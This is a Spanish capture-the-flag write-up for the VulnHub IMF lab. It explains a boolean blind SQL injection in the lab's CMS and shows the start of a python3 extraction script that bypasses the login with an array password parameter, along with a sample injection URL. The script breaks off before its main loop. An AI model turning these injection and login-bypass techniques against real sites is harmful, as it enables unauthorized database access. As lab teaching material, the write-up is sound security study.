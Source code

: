 ![](/assets/images/VulnHub/IMF/sqlError2.png)

Como 1=2 es falso y la primera letra no es "j", no nos esta reportando nada en la página, esto me hace pensar que estamos ante **Blind SQLI**.<br>
Me he programado un script en **python3** para automatizarme la extraccion de los datos:

```python
#!/usr/bin/python3

from pwn import *
import signal, sys, requests, time, string

# Uso
if len(sys.argv) != 2:
    print("\n[+] uso:\n\n\t" + sys.argv[0] + " ip\n")
    sys.exit(1)

# Variables
ip = sys.argv[1]
url = "http://" + str(ip) + "/imfadministrator/"
username = "rmichaels"
chars = string.printable

# CTRL + C
def defHandler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
signal.signal(signal.SIGINT, defHandler)

# SQL Injection Boolean Blind Based
# http://192.168.1.143/imfadministrator/cms.php?pagename=home' and (select substring("ch3chu",1,1))="c"'
def sqli():
    databases = ''
    db = 'admin'
    tables = ''
    tbl = 'pages'
    columns = ''
    cols = 'id,0x3a,pagename' # id:pagename
    data = ''
    
    s = requests.session()
    
    # Login
    pdata = {
        'user': username,
        'pass[]': 'qwerty'
    }
    s.post(url, data=pdata)

    p = log.progress("SQL injection boolean blind based")

```